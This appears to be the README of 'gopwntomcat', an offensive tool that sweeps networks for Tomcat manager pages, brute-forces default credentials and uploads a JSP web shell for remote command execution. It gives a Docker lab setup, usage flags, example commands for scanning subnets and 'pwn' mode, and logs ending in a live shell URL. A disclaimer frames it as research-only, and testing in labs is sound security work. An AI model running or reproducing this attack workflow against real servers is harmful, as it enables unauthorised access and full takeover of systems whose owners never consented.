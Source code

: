 # DISCLAIMER
This repository is for research purposes only, the use of this code is your responsibility.

I take NO responsibility and/or liability for how you choose to use any of the source code available here. By using any of the files available in this repository, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again, ALL files available here are for EDUCATION and/or RESEARCH purposes ONLY.

# gopwntomcat

This is a small little scanner and exploiting script. It will detect (brute-force) default credentials on a tomcat instance. If you find valid credentials you can use it to upload a command shell or a custom jsp shell.

## Example Environment

I used a docker container to test this script and so can you.

You create two files `tomcat-users.xml` and `context.xml` with the following content. I created them within `/tmp/`.

**tomcat-users.xml**:
```xml
<tomcat-users>
  <role rolename="manager-gui"/>
  <role rolename="manager-script"/>
  <user username="tomcat" password="s3cret" roles="manager-gui,manager-script"/>
</tomcat-users>
```

**context.xml**:
```xml
<Context antiResourceLocking="true" privileged="true" >
  <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>
   <Realm className="org.apache.catalina.realm.CombinedRealm">
    <Realm className="org.apache.catalina.realm.LockOutRealm"
      failureCount="50" lockOutTime="1" >
	    <Realm className="org.apache.catalina.realm.UserDatabaseRealm"
	      resourceName="UserDatabase"/>
    </Realm>
  </Realm>
</Context>
```

Then you start the docker container like so:

```bash
$ docker run \
  --name tomcat \
  -it --rm \
  -p 8080:8080 \
  -v /tmp/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml \
  -v /tmp/context.xml:/tmp/context.xml \
  tomcat \
  /bin/bash -c "mv /usr/local/tomcat/webapps /usr/local/tomcat/webapps2; mv /usr/local/tomcat/webapps.dist /usr/local/tomcat/webapps; cp /tmp/context.xml /usr/local/tomcat/webapps/manager/META-INF/context.xml; catalina.sh run"
```

If this succeeds you will have a tomcat running at http://your-ip:8080 with the manager @ /manager/html and the default login `tomcat:s3cret`.

## Usage
```
gopwntomcat v0.0.1
Usage: gopwntomcat -mode [scan|pwn] [mode specific options] (default: mode scan)

Scan options:
	-port		The port to use while scanning      (default: 8080)
	-ssl		Whether or not to use ssl           (default: false)
	-targeturi	Where the manager app is located at	(default: /manager/html)
	-threads	Concurrent threads while scanning	(default: 1)
	-rhost		IP or CIDR - you can define multiple

Pwn options:
	-port		The port to use for connection      (default: 8080)
	-ssl		Whether or not to use ssl           (default: false)
	-targeturi	Where the manager app is located at (default: /manager/html)
	-user		Valid username for logon            (default: tomcat)
	-pass		Valid password for logon            (default: tomcat)
	-customjsp	Define custom jsp to upload         (default: embedded cmd jsp)
	-rhost		Single IP, no multiple -rhost flags allowed

Examples:
	Scan a /24 net with 5 threads and different manager url:
		gopwntomcat -targeturi /custom/path/to/manager/html -rhost 192.168.1.0/24
	Scan multiple ips on different port with ssl:
		gopwntomcat -port 8443 -ssl -rhost 192.168.1.12 -rhost 10.10.10.100
	Pwn a tomcat server you know the credentials of:
		gopwntomcat -mode pwn -rhost 192.168.1.12 -user tomcat -pass s3cret
	Pwn a tomcat server you know the credentials of with custom jsp:
		gopwntomcat -mode pwn -rhost 192.168.1.12 -user tomcat -pass s3cret -customjsp ./custom.jsp

```

## Scan
With the above environment in place a successful scan could look like this:

```bash
$ ./gopwntomcat -rhost 192.168.1.0/24 -threads 5
2021/02/24 14:54:03 Started scan
----------------------------------------------------------------
2021/02/24 14:54:03 Host 192.168.1.223 responded to /manager/html request
2021/02/24 14:54:03 Host 192.168.1.223 requires authentication. Proceeding with password guessing...
Valid credentials found @192.168.1.223 - tomcat:s3cret
----------------------------------------------------------------
2021/02/24 14:54:33 Scan completed
```

## Exploit
After you got valid credentials you can upload a command shell using this command:

```bash
./gopwntomcat -mode pwn -rhost 192.168.1.223 -user tomcat -pass s3cret
2021/02/24 14:57:45 Let the pwn begin
2021/02/24 14:57:45 Fetching sessin ID and CSRF token...
2021/02/24 14:57:45 Uploading and deploying n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB ...
2021/02/24 14:57:45 Uploading 1059 bytes as n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB.war ...
2021/02/24 14:57:45 Upload was successful. Find your shell @ http://192.168.1.223:8080/n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB/AJ8IVUezjlrg1g4DsKI80PVTinkchs8e.jsp
```

Navigating your browser to the link will result in a webshell showing up:

![screenshot](/screenshot.png "Command shell in browser")